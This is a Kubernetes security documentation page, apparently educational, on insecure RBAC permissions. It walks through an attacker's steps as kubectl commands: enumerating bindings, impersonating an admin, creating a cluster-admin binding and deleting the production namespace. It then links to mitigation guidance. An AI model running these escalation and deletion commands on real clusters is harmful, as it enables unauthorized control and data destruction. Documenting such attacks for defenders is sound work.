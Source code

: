 ```yaml
---
sidebar_position: 8
title: "Insecure RBAC Permissions"
description: "Understanding how overly permissive RBAC configurations can lead to unauthorized access and privilege escalation in Kubernetes."
---
```


# Insecure RBAC Permissions

**Role-Based Access Control (RBAC)** is a fundamental security mechanism in Kubernetes, used to define **who** can perform **what actions** on **which resources**. When RBAC is **misconfigured or overly permissive**, attackers can escalate privileges, access sensitive resources, and compromise the entire cluster.

---

## Exploitation Steps: Gaining Unauthorized Access via Misconfigured RBAC

An attacker exploits weak RBAC settings to gain **elevated permissions** within the cluster.

### Step 1: Identify Open Permissions

The attacker lists RBAC roles and bindings using an existing low-privilege account:

```bash
kubectl get roles,rolebindings,clusterroles,clusterrolebindings -A
```

If a **RoleBinding** or **ClusterRoleBinding** grants excessive permissions, the attacker identifies a potential escalation path.

### Step 2: Impersonate a More Privileged User

If `impersonate` privileges are granted, the attacker can act as a more privileged user:

```bash
kubectl auth can-i '*' '*' --as=admin
```

### Step 3: Gain Cluster-Wide Access

If the attacker finds a misconfigured `ClusterRoleBinding` granting `cluster-admin` access, they escalate privileges:

```bash
kubectl create clusterrolebinding attacker-admin --clusterrole=cluster-admin --user=attacker
```

### Step 4: Execute Arbitrary Commands

Once the attacker has `cluster-admin` privileges, they can execute commands across the cluster:

```bash
kubectl exec -it <pod-name> -- /bin/sh
kubectl delete namespace production
```

### Result

The attacker now has **full administrative access**, enabling them to modify workloads, exfiltrate data, or delete entire namespaces.

---

## Mitigation Steps

To secure RBAC configurations and prevent privilege escalation, follow the security best practices outlined in:

➡ **[Securing RBAC Permissions](/docs/best_practices/cluster_setup_and_hardening/insecure_rbac_permissions_mitigation)**

This guide covers techniques such as **principle of least privilege, role scoping, avoiding wildcard permissions, and enforcing least privilege bindings** to mitigate RBAC security risks.
